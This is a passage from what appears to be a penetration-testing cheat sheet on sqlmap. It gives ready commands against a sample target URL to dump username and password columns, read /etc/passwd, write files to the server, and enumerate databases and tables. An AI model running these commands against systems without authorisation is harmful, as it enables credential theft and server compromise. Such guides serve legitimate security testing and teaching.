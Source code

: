 #### Dump Data

Dump data from columns of interest, such as username and password.

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent -D example_db -T users -C username,password --dump -p param
```

#### Additional Commands for Advanced Exploitation

**Read a File**

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent --file-read=/etc/passwd -p param
```

**Write to a File**

```bash
sqlmap -u "http://192.168.1.100/index.php?option=com_example&view=example&layout=example&param=example" --risk=3 --level=5 --random-agent --file-write=/tmp/example.txt

 --file-dest=/tmp/example.txt -p param
```

## Database Enumeration

SQLMap can enumerate databases, tables, and columns from the target system.

### Listing Databases

To list databases on the target system:

**Example Command**:

```bash
sqlmap -u [target URL] --dbs
```

- **--dbs**: Enumerates databases.

### Listing Tables

To list tables within a specific database:

**Example Command**:

```bash
sqlmap -u [target URL] -D [database name] --tables
```

- **-D [database name]**: Specifies the database to enumerate tables from.
- **--tables**: Enumerates tables.

### Listing Columns

To list columns within a specific table:
